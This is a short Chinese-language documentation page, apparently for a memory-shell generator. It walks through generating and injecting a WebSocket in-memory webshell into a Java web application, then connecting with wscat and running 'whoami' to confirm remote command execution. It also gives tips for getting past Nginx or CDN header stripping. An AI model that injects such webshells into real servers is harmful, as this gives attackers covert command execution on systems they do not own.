

import { Step, Steps } from "fumadocs-ui/components/steps";

## WebSocket 内存马

<Steps>
<Step>
### 选择 Command 并填写参数



</Step>

<Step>
### 生成并注入

选取合适的打包方式，并进行内存马的注入。

</Step>
<Step>
### 使用 WebSocket 客户端尝试连接

我这里使用的是 [wscat](https://github.com/websockets/wscat) 工具，使用 npm 就能下载 `npm install -g wscat`。

`/app` 是应用的路径，`/ws-cmd` 是上述生成时填的路径。

```bash
❯ wscat -c ws://127.0.0.1:8082/app/ws-cmd
Connected (press CTRL+C to quit)
> whoami
< reajason

>
```

WebSocket/JakartaWebSocket 通过容器的 JSR-356 实现注册 Endpoint，需要直连容器使用。Nginx 或 CDN 会剥离
`Upgrade` 头，这种场景请选择 RawWebSocket/JakartaRawWebSocket。

</Step>
</Steps>
